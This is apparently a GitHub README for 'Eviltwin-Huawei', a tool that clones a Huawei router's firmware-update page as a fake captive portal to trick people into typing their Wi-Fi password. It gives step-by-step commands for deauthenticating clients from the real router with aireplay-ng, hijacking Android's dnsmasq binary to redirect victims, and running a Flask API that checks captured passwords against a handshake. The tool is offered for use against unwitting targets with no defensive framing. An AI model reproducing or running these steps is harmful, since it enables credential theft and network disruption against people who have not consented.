



# Eviltwin-Huawei _XD

Features :] :

 - Written in python RUN ANYWHERE!
 - very low hardware/network usage
 - Optimized for slow hotspots
 - Low size assets 1.4mb!
 - lightning fast validation with aircrack-ng
 - Available in two languages EN/AR
 - Extracted from real device
 - Looks quite convincing

enjoy :)

# Demo






# Requirements

 - You target should be using Huawei router  
   verfiy this with airodump '--manufacturer' flag
 - if your target is dump enough that he doesn't know  
   what manufacturer is his router then use this template
 - 1 wifi card OR laptop wifi card  
   you can use your laptop internal wifi card if you want
 - 1 wifi card OR Rooted Android +4 to 10 supported  
   if you have another wifi card that supports ap mode  
   (hotspot) use it, if not follow android guide
 - linux with aircrack-ng installed 
 - Basic linux/wifi tools knowledge
 - Brain
 - Coffee! //network chuck lol

# Setup

## Android

This project was originally made to run on a android phone!!  
i didn't have a wifi card that supports ap mode (hotspot), Android phones  
have a really powerfull hotspot range it's just perfect better than any wifi  
card you will find on market that's why i made this.....

That said it was very hard to customize hostapd on android to specfic settings,  
For the essid just set the target name from android hotspot settings and make the  
security open, next we need a custom ip-range the default is 192.168.43.x  
which works fine but some devices like Samsung doesn't trigger  
'Captive portal login' except on a wierd ip like 200.200.200.x  
that's what we want, this setup was made on Android 5 should be working  
on 4,5,6,7,8,9,10 starting from 11 there's a random ip-range system  
good luck with that, all you need is dnsmasq/dnsmasq.sh script it works as follow:

1. when you activate hotspot hostapd is called first  
   then it setup the interface wlan0 then calls dnsmasq  
   with a hard-coded ip range 192.168.43.x

2. we intercept hostapd or whatever calls dnsmasq  
   by making a fake dnsmaq bin so it calls our script  
   thinking it's dnsmasq at /bin/dnsmasq

3. when our script is called we setup wlan0 on whatever  
   ip-range we want in this case 200.200.200.x then  
   reserve 200.200.200.1 to ourselves

4. call the real dnsmasq with custom options like redirecting  
   to our apache server 

5. setup iptables

All you have to do is:

 - You need root access
 - use a file manager if you don't want to mess with shell
 - either use `adb shell` then `su` or install sudo and su on termux
 - rename `dnsmasq` in `/bin/` to `/bin/dnsmasq.bin`  
   `mv /bin/dnsmasq /bin/dnsmasq.bin`
 - copy dnsmasq.sh to /bin/ rename to dnsmasq give the right permission  
   `cp /sdcard/dnsmasq.sh /bin/dnsmasq`  
   `chmod +x /bin/dnsmasq` i set the permissions as dnsmasq.bin
 - there should be a log file in /data/misc/wifi when dnsmasq.sh is running

NOTE: if you're planning to use another ip-range change index.html#L137 to where flask is hosted

Now activate hotspot from your settings, you should have a hotspot  
running with your target's name with open security,  
if you connect to it you should be assigned to 200.200.200.x  

next you need apache running

## Apache setup

very simple you don't actually need apache you can use python http  
like `python3 -m http.server 80` run this in the eviltwin folder

For android install apache on termux with apt go to usr/etc/apache2/sites/  
copy apache/portal.conf there then copy eviltwin folder there too  
use sudo for port 80 to work `sudo apachectl` verfiy it's running with  
`curl 127.0.0.1` or top `top | grep httpd` if it's working then you're done!

For normal whatever device use whatever http client you want or use apache  
install apache if you don't have it add portal.conf to your apache sites folder  
change the DocumentRoot to eviltwin directory, then run apache verfiy it's  
running using curl `curl 127.0.0.1`

## Hotspot

this for linux users only, you need to setup a hotspot using hostapd  
make a config for it with your target's name and open security,  
google 'linux setup hostapd'

 - run hostapd
 - run dnsmasq with dnsmasq/dnsmasq.conf  
   it should assign users to 200.200.200.x  
   then redirect to 200.200.200.1 your apache

NOTE: if you're planning to use another ip-range change index.html#L137 to where flask is hosted

## Flask Password API

1. `pip install flask`
2. copy your target handshake and rename to 'evil.cap'  
   `cp path/handshake.cap .`  
   `mv handshake.cap evil.cap`
3. Set your target MAC address use aircrack to get it  
   ```bash
   $ aircrack-ng evil.cap
   Reading packets, please wait...
   Opening evil.cap
   Read 3258 packets.

   #  BSSID              ESSID                     Encryption

   1  5C:F9:6A:FC:17:2B  Huawei-172F               WPA (0 handshake, with PMKID)
   2  C2:F0:00:2F:90:D2                            Unknown

   ```
   Copy BSSID of your target and paste in flask.py#L5 as target  
   Note that your target should have a handshake/pkmid in evil.cap  
   In my case it has a PKMID


4. `python3 passapi.py` now password verification api is online  
   you can play with it using `curl 127.0.0.1:5000/pass 'pass=12345678'`  
   it should reply with 'Allgood' or 'notgood' if password is incorrect

NOTE: if you're planning to use another ip-range change index.html#L137 to where flask is hosted


# How it works

1. we run a deuth attack on the target's router  
   `airmon-ng start wlan0`  
   `airodump-ng wlan0mon -c 5` put your target's channel  
   `aireplay-ng -0 0 -a MA:CA:DD:RE:SS wlan0mon` put your target's mac address

2. all clients connected to target router are disconnected
3. user connect to your hotspot cuz he's dump
4. dnsmasq redirect all his requests to your http server  
   that servers our eviltwin template asking for password
5. user enters a password
6. password is sent back to our flask api then it  
   runs aircrack-ng with a handshake you supplied  
   and check if the password is correct
7. our flask api replies with 'Allgood'/'notgood' to the user
8. if 'notgood' ask user to enter a correct password  
   if 'Allgood' make update animation  
9. if you got the password you should stop aireplay

enjoy your wifi!

# Credits
 - [@athanstan](https://github.com/athanstan/EvilTwin_AP_CaptivePortal)
   @athanstan i copied the upgrading animation from him,  
   he also has another good repos check it out!

pm on telegram for any queries [@Pine_Orange](t.me/Pine_Orange) or [@xd2222](t.me/xd2222)

# Donation
if you liked this project you can support me by donating to the following address,  
THANKS!
 - XMR - `433CbZXrdTBQzESkZReqQp1TKmj7MfUBXbc8FkG1jpVTBFxY9MCk1RXPWSG6CnCbqW7eiMTEGFgbHXj3rx3PxZadPgFD3DX`
